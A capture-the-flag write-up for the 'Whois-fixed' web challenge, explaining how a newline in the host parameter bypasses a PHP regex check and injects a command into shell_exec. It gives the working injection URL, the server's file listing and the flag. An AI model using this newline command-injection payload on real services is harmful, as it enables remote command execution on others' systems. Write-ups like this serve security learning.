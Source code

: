 # Whois-fixed

## Description:

> Tags: medium

> A web-based Whois service.
>
> **Note** : There was a problem with the first version, this is the fixed version.

> Author : souad

> https://whois-fixed.challs.shellmates.club

## First thoughts:

So from the previous challenge, we know that there was a misconfiguration and accessing 
```
https://whois-fixed.challs.shellmates.club/flag.txt
```
return Not found page.

Son now, we have to focus on bypassing the regex check

## Understanding the regex:

The first regex for `host` variable tests if it matches: 
```php
$host_regex = "/^[0-9a-zA-Z][0-9a-zA-Z\.-]+$/";
```
and `query` if it matches:
```php
$query_regex = "/^[0-9a-zA-Z\. ]+$/";
```

## Solution:

I wasn't able to find the solution for the challenge, but my teammate did, and here is how:

The PHP function `preg_match` matches only the first line, so if we insert `\n` in the host, we will be able to add any commands we want to be executed with `shell_exec`.

So accessing:
```
https://whois-fixed.challs.shellmates.club/query.php?host=whois.verisign-grs.com%0a&query=ls
```

we get all the files available in the server:
```
index.html
query.php
thisistheflagwithrandomstuffthatyouwontguessJUSTCATME
```
and the flag is:
```
shellmates{i_$h0U1D_HaVE_R3AD_7HE_dOc_W3Ll_9837432986534065}
```
